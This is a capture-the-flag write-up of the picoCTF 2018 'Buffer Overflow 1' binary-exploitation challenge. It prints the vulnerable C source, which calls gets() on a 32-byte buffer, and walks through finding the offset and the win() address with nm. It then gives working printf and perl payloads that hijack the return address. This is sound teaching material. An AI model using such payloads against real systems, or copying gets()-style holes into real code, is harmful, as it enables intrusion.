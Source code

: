 # Buffer Overflow 1

	This is a basic challenge from picoCTF 2018

# Category: Binary Exploitation

# Points: 200

		./vuln
		Please enter your string:
		aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
		Okay, time to return... Fingers Crossed... Jumping to 0x61616161
		Segmentation fault (core dumped)

# Write Up:

To start. vuln uses "gets". This allows you to send more than the buffer size.

So it takes 33 characters to overflow the buffer; but it doesn't crash at 33...

So the source is helpful but it doesn't tell how much it takes to actually crash it. So we add a lot of a's.

Now it returns 0x61616161. 0x61 is hex 'a' 

So I will find where specificially I can manipulate my string.

		z3r0@ubuntu:~/Desktop/GitHub/borg/cseagle/Eagle Challenges/buffer_overflow_1$ ./vuln 
		Please enter your string: 
		aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabcd                             
		Okay, time to return... Fingers Crossed... Jumping to 0x64636261
		Segmentation fault (core dumped)
		z3r0@ubuntu:~/Desktop/GitHub/borg/cseagle/Eagle Challenges/buffer_overflow_1$ ./vuln 
		Please enter your string: 
		aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaeeee   
		Okay, time to return... Fingers Crossed... Jumping to 0x65656565
		Segmentation fault (core dumped)	

Now time to "Control Flow Hijack"

		#include <stdio.h>
		#include <stdlib.h>
		#include <string.h>
		#include <unistd.h>
		#include <sys/types.h>
		#include "asm.h"	

		#define BUFSIZE 32
		#define FLAGSIZE 64

		void win() {
		  char buf[FLAGSIZE];
		  FILE *f = fopen("flag.txt","r");
		  if (f == NULL) {
		    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
		    exit(0);
		  }

		  fgets(buf,FLAGSIZE,f);
		  printf(buf);
		}

		void vuln(){
		  char buf[BUFSIZE];
		  gets(buf);

		  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
		}
	
		int main(int argc, char **argv){

		  setvbuf(stdout, NULL, _IONBF, 0);
  
		  gid_t gid = getegid();
		  setresgid(gid, gid, gid);
	
		  puts("Please enter your string: ");
		  vuln();
		  return 0;
		}

We need to find the address of "win"

		z3r0@ubuntu:~/Desktop/GitHub/borg/cseagle/Eagle Challenges/buffer_overflow_1$ nm vuln
		0804a03c B __bss_start
		0804a040 b completed.7209
		0804a034 D __data_start
		0804a034 W data_start
		08048510 t deregister_tm_clones
		08048580 t __do_global_dtors_aux
		08049f0c t __do_global_dtors_aux_fini_array_entry
		0804a038 D __dso_handle
		08049f14 d _DYNAMIC
		0804a03c D _edata
		0804a044 B _end
		         U exit@@GLIBC_2.0
		         U fgets@@GLIBC_2.0
		08048734 T _fini
		         U fopen@@GLIBC_2.1
		08048748 R _fp_hw
		080485a0 t frame_dummy
		08049f08 t __frame_dummy_init_array_entry
		08048970 r __FRAME_END__
		         U getegid@@GLIBC_2.0
		080486c0 T get_return_address
		         U gets@@GLIBC_2.0
		0804a000 d _GLOBAL_OFFSET_TABLE_
		         w __gmon_start__
		0804882c r __GNU_EH_FRAME_HDR
		080483ec T _init
		08049f0c t __init_array_end
		08049f08 t __init_array_start
		0804874c R _IO_stdin_used
		         w _ITM_deregisterTMCloneTable
		         w _ITM_registerTMCloneTable
		08049f10 d __JCR_END__
		08049f10 d __JCR_LIST__
		         w _Jv_RegisterClasses
		08048730 T __libc_csu_fini
		080486d0 T __libc_csu_init
		         U __libc_start_main@@GLIBC_2.0
		0804865d T main
		         U printf@@GLIBC_2.0
		         U puts@@GLIBC_2.0
		08048540 t register_tm_clones
		         U setresgid@@GLIBC_2.0
		         U setvbuf@@GLIBC_2.0
		080484d0 T _start
		0804a03c B stdout@@GLIBC_2.0
		0804a03c D __TMC_END__
		0804862f T vuln
		080485cb T win
		08048500 T __x86.get_pc_thunk.bx

So the address of win() is 0x080485cb

		printf "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\xcb\x85\x04\x08" | ./vuln 
		Please enter your string: 
		Okay, time to return... Fingers Crossed... Jumping to 0x80485cb
		Congrats! C3T{flag}
		Segmentation fault (core dumped)

Remember Little Endian... So you must put the address in "cb", "85", "04", "08"

Now if you want to use perl instead.

		perl -e 'print "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\xcb\x85\x04\x08"' | ./vuln 
		Please enter your string: 
		Okay, time to return... Fingers Crossed... Jumping to 0x80485cb
		Congrats! C3T{flag}
		Segmentation fault (core dumped)

Congrats, that's all folks.
